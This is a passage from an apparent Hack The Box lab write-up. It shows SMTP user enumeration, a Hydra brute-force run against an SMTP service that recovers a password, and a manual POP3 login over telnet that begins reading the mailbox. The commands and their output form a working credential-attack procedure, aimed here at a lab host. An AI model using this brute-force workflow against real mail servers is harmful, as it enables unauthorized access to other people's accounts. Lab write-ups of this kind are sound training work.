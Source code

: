 ```c

######## Scan started at Sat Oct  5 23:28:12 2024 #########
10.129.188.131: marlin@inlanefreight.htb exists
######## Scan completed at Sat Oct  5 23:29:07 2024 #########
1 results.

79 queries in 55 seconds (1.4 queries / sec)

```

So the user is marlin

15.  Access the email account using the user credentials that you discovered and submit the flag in the email as your answer. 

As we got martin, let's find out the password. OF course nothing is easy, especially in Hackthebox. I wasted 1 hour for sure, figuring out the password, using hydra, medusa, 0365spray but it was not that obvious. To get the password we need to use the 'full' username 😆 which is marlin@... So here it is:
```c
hydra -l marlin@inlanefreight.htb -P pws.list -s 25 -f 10.129.188.131 smtp
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-06 00:16:11
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 333 login tries (l:1/p:333), ~21 tries per task
[DATA] attacking smtp://10.129.188.131:25/
[25][smtp] host: 10.129.188.131   login: marlin@inlanefreight.htb   password: poohbear
[STATUS] attack finished for 10.129.188.131 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-10-06 00:16:44                                                                                  
```

Fucking love it ;)
Next is we need to log in to one of the email services. I tried pop3 and it worked well. I liked the process lowkey, cuz never used it before.
```c
telnet 10.129.188.131 110
Trying 10.129.188.131...
Connected to 10.129.188.131.
Escape character is '^]'.
+OK POP3
USER marlin@inlanefreight.htb
+OK Send your password
poohbear
-ERR Invalid command in current state.
USER marlin
+OK Send your password
poohbear
-ERR Invalid command in current state.
USER marlin@inlanefreight.htb
+OK Send your password
PASS poohbear
+OK Mailbox locked and ready
LIST
+OK 1 messages (601 octets)
1 601
.
RETR 1
+OK 601 octets
Return-Path: marlin@inlanefreight.htb
```